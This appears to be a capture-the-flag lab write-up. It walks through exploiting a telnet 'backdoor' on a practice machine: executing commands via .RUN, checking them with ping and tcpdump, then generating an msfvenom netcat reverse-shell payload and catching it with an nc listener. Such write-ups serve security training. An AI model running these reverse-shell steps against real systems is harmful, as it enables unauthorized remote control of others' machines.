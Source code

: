 Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. 
It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control.


**Method Breakdown**

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!


  **"telnet ip port "**

	NOTE: use .HELP after connecting via telnet to target system to check commands syntax

	NOTE: This is how I found out that to run commands you have to type .RUN before and then the actual command

	root@ip-10-10-55-84:~# telnet 10.10.21.149 8012
	Trying 10.10.21.149...
	Connected to 10.10.21.149.
	Escape character is '^]'.
	SKIDY'S BACKDOOR. Type .HELP to view commands
	^]
	telnet> .HELP
	?Invalid command
	telnet> .HELP
	?Invalid command
	telnet> 
	.HELP
	.HELP: View commands
 .RUN <command>: Execute commands
	.EXIT: Exit

	Note: now to run a ping command in telnet session

	.RUN ping 10.10.55.84 -c 5


Start a tcpdump listener on your local machine.
	-   `sudo tcpdump ip proto \\icmp -i eth0`

  
Now, use the command **"ping [local THM ip] -c 1"** through the telnet session to see if we're able to execute system commands.
	yes

Now we know the commend is being executed at target system through telnet

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format


Now all we need to do is start a netcat listener on our local machine. We do this using:

**"nc -lvp [listening port]"**

we need to copy and paste our msfvenom payload into the telnet session and run it as a command


Now we have a reverse shell in target system